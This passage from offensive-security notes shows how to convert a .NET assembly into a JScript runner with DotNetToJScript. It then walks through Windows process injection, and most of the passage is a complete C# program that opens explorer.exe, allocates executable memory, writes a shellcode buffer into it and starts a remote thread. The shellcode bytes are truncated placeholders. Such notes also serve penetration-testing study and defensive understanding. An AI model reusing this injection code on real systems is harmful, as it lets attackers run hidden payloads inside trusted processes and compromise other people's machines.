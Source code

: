 https://github.com/tyranid/DotNetToJScript Open the project in VS, modify the `ExampleAssembly` as desired (such as the below), build and then run:

```powershell
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

### Process Injection

As an overview, we can initiate Windows-based process injection by opening a channel from one process to another through the Win32 _OpenProcess_ API. We'll then modify its memory space through the _VirtualAllocEx_ and _WriteProcessMemory_ APIs, and finally create a new execution thread inside the remote process with _CreateRemoteThread_.

This will inject the shellcode into the explorer proces

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ProcessInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
	    Process[] processes = Process.GetProcessesByName("explorer");
	    IntPtr hProcess = OpenProcess(0x001F0FFF, false, processes[0].Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[591] {0xfc,0x48,0x83,0xd5 };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

References:

* https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess
* https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
* https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
* https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
